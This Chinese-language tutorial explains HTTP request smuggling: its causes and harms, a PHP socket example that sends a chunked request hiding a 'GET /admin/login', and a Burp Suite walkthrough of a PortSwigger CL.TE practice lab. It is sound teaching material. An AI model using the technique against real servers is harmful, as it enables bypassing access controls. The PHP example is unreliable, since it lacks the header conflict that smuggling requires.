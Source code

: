 # 一、HTTP请求走私概述
1. HTTP请求走私是指攻击者利用HTTP请求头中的不一致性和解释性差异，欺骗缓存服务器或代理服务器，将一些请求被视为分离的多个请求，从而绕过安全保护机制，窃取用户数据或进行其他恶意活动。
2. 造成HTTP请求走私的原因
	- 不同的代理服务器或缓存服务器之间处理请求头的逻辑不一致，可能导致请求被解释为不同数量的请求。 
	- 攻击者可能会利用请求头中支持多种不同编码方式的功能来欺骗服务器，使其将请求解释成不同的请求。 
	- 部分Web应用程序对请求头参数缺乏验证，而攻击者可以通过设置不同的请求头来欺骗服务器，将其视为多个请求。
	- 攻击者可能会利用某些错误配置的服务器来实现HTTP请求走私攻击。
# 二、HTTP请求走私的危害
1. 窃取用户数据：攻击者可以通过HTTP请求走私攻击绕过安全机制，窃取用户的敏感信息，如登录凭据、身份证件、银行账号等。 
2. 劫持用户会话：攻击者可以通过请求走私攻击模拟用户会话，冒充合法用户进行恶意操作，如修改他人账户、购买商品等。 
3. 绕过Web安全控制：HTTP请求走私攻击可以绕过一些Web安全机制，如Web应用程序防火墙（WAF）和入侵检测系统（IDS），从而进一步攻击Web应用程序或服务器。 
4. 其他攻击：攻击者可以使用HTTP请求走私来进行其他攻击，如跨站脚本攻击、SQL注入等，危害Web应用程序和用户的安全。
# 三、代码示例
1. 使用PHP编写一个存在HTTP请求走私的代码示例
```PHP
$fp = fsockopen("www.example.com", 80);
if ($fp) {
    $headers = "GET / HTTP/1.1\r\n";
    $headers .= "Host: www.example.com\r\n";
    $headers .= "Transfer-Encoding: chunked\r\n";
    $headers .= "Connection: close\r\n";
    $headers .= "X-Forwarded-For: 127.0.0.1\r\n\r\n";
    $data = "G\r\nGET /admin/login HTTP/1.0\r\n\r\n";
    fwrite($fp, $headers . dechex(strlen($data)) . "\r\n" . $data . "\r\n0\r\n\r\n");
    while (!feof($fp)) {
        echo fgets($fp, 1024);
    }
    fclose($fp);
}
```
2. 这个示例演示了HTTP请求走私的攻击原理，代码使用Transfer-Encoding分块编码，欺骗服务器接收到多个HTTP请求，以获取对敏感信息的访问权限。
# 四、BurpSuite靶场示例
1. 打开靶场[HTTP请求走私](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)，同时打开BurpSuite抓包，查看BurpSuite历史数据包记录，如下
![1.png](./img/HTTP_request_smuggling/1.png)
2. 将第一个数据包转发到Repeater，并在左侧的Request attributes中将HTTP/2修改为HTTP/1，修改数据包如下，点击发送
![2.png](./img/HTTP_request_smuggling/2.png)
3. 正常情况下没有漏洞的话这个请求应该是被禁止的，但是可以看到请求却成功被发送给了后台并回显了数据，再发送一次，发现返回数据包回显了"Unrecognized method GPOST"，网站的安全机制被成功绕过
![3.png](./img/HTTP_request_smuggling/3.png)
